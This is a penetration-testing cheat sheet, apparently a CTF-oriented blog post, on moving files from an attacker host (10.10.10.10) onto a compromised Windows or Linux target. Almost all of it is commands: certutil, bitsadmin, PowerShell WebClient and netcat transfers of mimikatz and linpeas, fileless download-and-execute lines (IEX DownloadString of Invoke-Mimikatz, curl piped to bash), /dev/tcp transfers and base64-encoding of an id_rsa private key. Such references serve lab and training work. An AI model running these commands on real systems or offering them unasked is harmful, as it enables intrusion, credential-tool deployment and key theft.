 ```yaml
---
title: "Cheat Sheet - File Transfer"
author: Nasrallah
description: ""
date: 2025-05-13 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, linux, windows]
img_path: /assets/img/cheatsheet
image:
    path: banner.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## Setting up servers

This section covers the different ways to setup our servers to transfer files.

### HTTP

The following commands are used to setup an HTTP server.

```bash
python3 -m http.server 8000
python2.7 -m SimpleHTTPServer
ruby -run -ehttpd . -p 80
php -S 0.0.0.0:80
```

To setup an HTTPS server we can use openssl.

First we create a certificate using the following command:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

The following command listens on port 8000 and server the file `linpeas.sh`

```bash
openssl s_server -quiet -accept 8000 -cert certificate.pem -key key.pem < linpeas.sh
```

### SMB server

To setup an SMB server we can use `Impacket`

```bash
sudo impacket-smbserver share -smb2support ./
```

To add authentication with a username and a password we can add the following options.

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### SSH server

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

### Upload server

The following command is used to setup `uploadserver` which is a python module that acts as an upload server that is used to transfer files from the victims machine to our attacking machine.

To install the module use the following command.

```bash
pipx install uploadserver
```

Setup a server.

```bash
uploadserver
```

To upload files using HTTPS we can create a certificate using `openssl` then instruct `uploadserver` to use it.

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

uploadserver 443 --server-certificate ~/server.pem
```

> Note that the certificate should be at a different directory from where you're running the command.

Before we start, let's consider the attacker's ip to be `10.10.10.10` and the victim's ip is `9.9.9.9`

## Windows File Transfer

### PowerShell/cmd

```cmd
certutil -urlcache -f http://10.10.10.10/mimikatz.exe .\mimikatz.exe
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:/nc.exe C:\Windows\Temp\nc.exe
```

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/mimikatz.exe', 'C:\Users\Public\mimikatz.exe')
(New-Object Net.WebClient).DownloadFileAsync('http://10.10.10.10/mimikatz.exe', 'C:\Users\Public\mimikatz.exe')
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
iwr "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
curl "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
wget "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
```

Other option for `WebClient` are: [`OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0) - [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0) - [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0) - [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0) - [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0) - [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)`

To Download and execute without writing to the disk we can use IEX(**Invoke Expression**).

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://10.10.10.10/Invoke-Mimikatz.ps1')
(New-Object Net.WebClient).DownloadString('https://10.10.10.10/Invoke-Mimikatz.ps1') | IEX
```

#### Base64

For small file we can use base64 encoding for easy transfer.

We encode the data like this:

```bash
cat id_rsa |base64 -w 0;echo
```

We copy the base64 string and paste it to the following command to decode it and save it to a file.

```cmd
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("BASE64+STRING+HERE"))
```

### SMB

Now we can copy files to the windows target.

```powershell
copy \\10.10.10.10\\share\\mimikatz.exe
```

For errors like "security policy" or "path doesn't exist" use the server with credentials and mount the share.

```shell
net use \\10.10.10.10\\share /user:hacker hacker
copy \\10.10.10.10\\share\\mimikatz.exe
```

## Linux File Transfer

### Through HTTP

The next commands are used to download `linpeas.sh` from the compromised machine.

```shell
wget http://10.10.10.10/linpeas.sh
curl http://10.10.10.10/linpeas.sh -o linpeas.sh
```

Download files using code

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://10.10.10.10/linpeas.sh", "linpeas.sh")'
python2.7 -c 'import urllib;urllib.urlretrieve ("http://10.10.10.10/linpeas.sh", "linpeas.sh")'
php -r 'file_put_contents("file.txt",file_get_contents("http://10.10.14.189/file.txt"));'
php -r 'const BUFFER = 1024; $fremote = fopen("http://10.10.10.10/linpeas.sh", "rb"); $flocal = fopen("linpeas.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("http://10.10.10.10/linpeas.sh")))'
perl -e 'use LWP::Simple; getstore("http://10.10.10.10/LinEnum.sh", "linpeas.sh");'
```

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /linpeas.sh HTTP/1.1\n\n">&3
cat <&3 | sed '1,/^\r$/d' > linpeas.sh
```

Execute the file without writing to the disk

```bash
wget -qO- http://10.10.10.10/linpeas.sh | bash
curl -s http://10.10.10.10/linpeas.sh | bash
```

### Netcat listener

Attacking machine listening.

```bash
nc -lvnp 1234 -q 0 < linpeas.sh
```

Target machine connecting

```bash
nc 10.10.10.10 1234 > linpeas.sh
cat < /dev/tcp/10.10.10.10/1234 > linpeas.txt
```

Target machine listening

```bash
nc -lvnp 1234 > linpeas.sh
```

Attacking machine connecting

```bash
cat linpeas.sh > /dev/tcp/9.9.9.9/1234
nc 9.9.9.9 1234 < file.txt
```

### SSH/SCP

```bash
scp attacker@attacker:/home/attacker/linpeas.sh . 
```

### Exfiltration w/ uploader

Working on it...

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
